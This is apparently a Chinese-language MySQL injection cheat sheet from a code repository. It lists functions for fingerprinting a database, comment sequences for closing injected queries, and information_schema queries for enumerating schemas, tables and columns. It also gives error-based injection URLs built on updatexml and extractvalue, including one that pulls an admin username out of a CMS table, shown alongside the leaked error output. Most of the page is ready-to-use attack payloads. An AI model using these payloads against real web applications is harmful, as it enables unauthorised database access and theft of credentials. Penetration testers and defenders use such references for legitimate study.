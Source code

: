 # mysql注入速查表

## 常用函数

`@@hostname`  主机名称

`@@datadir`  数据库所在路径

`@@version_compile_os`  查看操作系统版本

`database()`  当前数据库名称

`user()`  数据库用户名

`version()`  当前版本

`order by x / gruop by x`  判断列数

## 字符串函数

`concat(str1,str2)`  不用分隔符连接字符串

`concat_ws(separator,str1,str2)`  用分隔符连接字符串

`group_concat(str1,str2)`  连接一个组的所有字符串，并以逗号分隔


## 注释

* `# `、`--+`、`%23`
* `/*`、`-- -`

## 逻辑运算符

`and`、`or`

## 常用语句

> 所有数据库

```sql
select schema_name from information_schema.schemata
```

> 某库的所有表

```sql
select table_name from information_schema.tables where table_schema='xxx'
```

> 某表的所有列

```sql
select column_name from information_schema.columns where table_name='xxx'
```

## updatexml、extractvalue函数

`UPDATEXML (XML_document, XPath_string, new_value);`

**有长度限制，最长32位**

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc。

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

第三个参数：new_value，String格式，替换查找到的符合条件的数据。

```
http://www.host.com/index.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
http://www.host.com/index.php?id=updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
http://www.host.com/index.php?id=updatexml(1,concat(0x7e,SUBSTR((SELECT @@version),1,24),0x7e),1)

t.title='1' and updatexml(1,concat(0x7e,(SELECT username FROM bage_admin where id=1),0x7e),1)
(1105, u"XPATH syntax error: '~admin~'")

t.title='1' and extractvalue(0x7e,concat(0x7e,(select database())))
(1105, u"XPATH syntax error: '~bagecms'")
```




[Mysql注入点在limit关键字后面的利用方法](https://www.freebuf.com/articles/web/57528.html)

